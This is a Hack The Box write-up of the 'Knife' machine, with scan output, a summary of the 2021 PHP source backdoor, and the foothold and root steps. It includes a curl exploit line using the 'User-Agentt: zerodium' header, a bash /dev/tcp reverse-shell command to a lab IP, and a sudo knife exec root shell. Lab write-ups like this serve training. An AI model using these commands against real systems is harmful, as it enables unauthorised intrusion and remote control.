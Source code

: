 ```yaml
---
id: cb976831-a0d0-4709-9884-e7084b3b1aaf
title: "Hack The Box Knife"
description: In this post, I'll go over Knife from Hack the Box. It's an easy level Linux machine that shows what damage a supply chain attack on the PHP codebase could have caused if it would have slipped through the cracks and got released into the wild.
date: 2021-08-30T20:00:00+01:00
categories: [hack-the-box, writeup, knife, php, backdoor, chef]
cover: ./assets/2021-08-30-hack-the-box-knife/cover.png
---
```


Knife is one of the easier boxes on HTB. There are only two significant steps involved. The first step is noticing a header in the HTTP request that contains a weird PHP version. Looking for this version online shows that this particular PHP version has a backdoor inserted when the PHP development servers were hacked back in March of 2021. Once on the box, there is a setuid binary called knife. This binary is part of Chef, which is a collection of DevOps tools. Going through the docs show that arbitrary code execution is possible to get access to the root user.

# Enumeration
I am kicking off a nmap scan to understand better what services and ports the target machine is exposing. With arguments`-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. Dumping the output to a log file makes it easy to refer back to later, or if you want to embed it in your blog, as I do.

```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.242

# Nmap 7.91 scan initiated Wed May 26 20:16:25 2021 as: nmap -sC -sV -v -o nmap.txt 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 26 20:16:34 2021 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

The result shows an ssh server running on port `22` and a simple web server hosted by Apache on port  `80`. Opening this website in Firefox show the renderings of what I would call a pretty basic HTML website.

![Website On Port 80](./assets/2021-08-30-hack-the-box-knife/website.png)

After combing through the website for a minute or two, I decided to start a couple of gobuster scans. None yielded anything fruitful and it wasn't until I checked my `nikto` scan for the second time that I noticed something interesting . 

```sh
$ nikto -host 10.10.10.242 -output knife-nikto.txt

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.242
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/8.1.0-dev
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HTWZVPJS Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

The `x-powered-by` header contains a rather interesting version, `PHP/8.1.0-dev`, indicating this is running a development build of PHP. On release day, Googling this version didn't yield many results. Hence, I took to [GitHub](https://github.com/php/php-src) and tried to find more information in the PHP source code itself. But this also wasn't very helpful. The repo didn't contain any tags for this specific version or any references to it whatsoever. Spending a lot more time trying different google searches, I bumped in this article from [artechnica](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server). It talks about a supply chain attack against the PHP codebase where it got hacked, and a backdoor got inserted. Looking into it deeper many more articles talking about it https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/ and https://news-web.php.net/php.internals/113838.

Funny enough, searching for that version now directly leads to a working exploit on exploitdb:

![Duck Duck Go Search Result](./assets/2021-08-30-hack-the-box-knife/duckduckgo-search-now.png)

In a nutshell, what happened is that two commits got added to the php-src repo under the account names of two well-known PHP developers. The assumption is that an attacker gained access to git.php.net server. Git by itself doesn't add any safety measures around identity, making it very easy for whoever wants to impersonate a commit as a specific user. Following this incident, PHP maintainers have decided to migrate the official PHP source code repository to GitHub as a precaution.

Given the code lives on GitHub and the open-source nature of PHP, I can have a look at the malicious commits [here](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370) and [here](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370). The commits target one file, `ext/zlib/zlib.c`, adding 11 lines of code (all in green):

It’s fascinating to see others commenting on the commit, the first comment asking if the misspelling of `HTTP_USER_AGENT` as `HTTP_USER_AGENTT` was a mistake, and four lines later someone asking what it did, and someone else responding basically that’s it’s a backdoor, and how it works.

![PHP Malicious Commit](./assets/2021-08-30-hack-the-box-knife/php-malicious-commit.png)

As the devs point out, to execute this backdoor, I’ll need a `User-Agentt` header that starts with “zerodium”, and whatever is after that will be executed as PHP code.

## Foothold
To test this out, I quickly prepare a `curl` command that will execute the `echo` command with some random text, hoping embedded in the output.

```sh
curl -XGET -H 'User-Agentt: zerodiumsystem("echo hello_15234_world");' 10.10.10.242 | grep hello
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5821    0  5821    0     0   111k      0 --:--:-- --:--:-- --:--:--  111k
hello_15234_world
```

It works! All I have to do now is replace the `echo` command with a reverse shell
 `curl -v -I -XGET -H 'User-Agentt: zerodiumsystem("bash -c \"bash -i >& /dev/tcp/10.10.14.9/6666 0>&1\"");' 10.10.10.242`. And I get a shell to extract the user flag:

![User Flag](./assets/2021-08-30-hack-the-box-knife/user-flag.png)

## Privilege escalation
The user I got access to is called james, and it seems that this user can run the `knife` command as root.

```sh
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

james@knife:/dev/shm$
```

Knife is part of the [Chef](https://docs.chef.io/platform_overview) toolchain. Which is an infrastructure as code platform. Knife itself is a command line tool that according to the docs can be used to manage different parts of chef such as nodes, cookbooks, recipes, roles, environments, ...

Digging through the docs I learned that `knife` has an [exec](https://docs.chef.io/workstation/knife_exec/) command that allows running ruby code. At the time of the challenge `knife` didn't have a [GTFObins page](https://gtfobins.github.io/gtfobins/ruby/#sudo) yet. Because I quickly skimmed the docs I [downloaded](https://github.com/secjohn/ruby-shells/blob/master/revshell.rb) a Ruby reverse shell and executed the file with `knife` to get root access:

![Root Flag](./assets/2021-08-30-hack-the-box-knife/root-flag.png)

But with the `-e` it could have been as easy as:

```
james@knife:~$ sudo knife exec -E "exec '/bin/bash'"         
root@knife:/home/james#
```